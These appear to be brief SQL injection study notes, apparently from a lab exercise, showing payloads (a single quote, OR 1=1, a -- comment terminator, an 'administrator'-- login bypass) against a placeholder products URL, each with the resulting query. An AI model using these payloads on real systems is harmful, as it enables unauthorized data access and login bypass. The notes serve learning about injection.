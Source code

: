 # SQL Injection

* `'`. `OR 1=1`, `OR 1=2`
* `WHERE` and `SELECT` are the most common. 


By adding `released=0`, it returns all products, including unreleased ones. 
* `https://example.com/products?category=Gifts`
* `SELECT * FROM products WHERE category = 'Gifts' AND released = 0`



A comment indicator `--` comments out anything after. As a result, it returns all products. 

* `https://example.com/products?category=Gifts'--`
* `SELECT * FROM products WHERE category = 'Gifts'--' AND released = 0`


This also returns all products.

* `https://example.com/products?category=Gifts'+OR+1=1--`
* `SELECT * FROM products WHERE category = 'Gifts' OR 1=1` AND released = 0`
* `SELECT * FROM users WHERE username = 'administrator'--' AND password = ' ' `
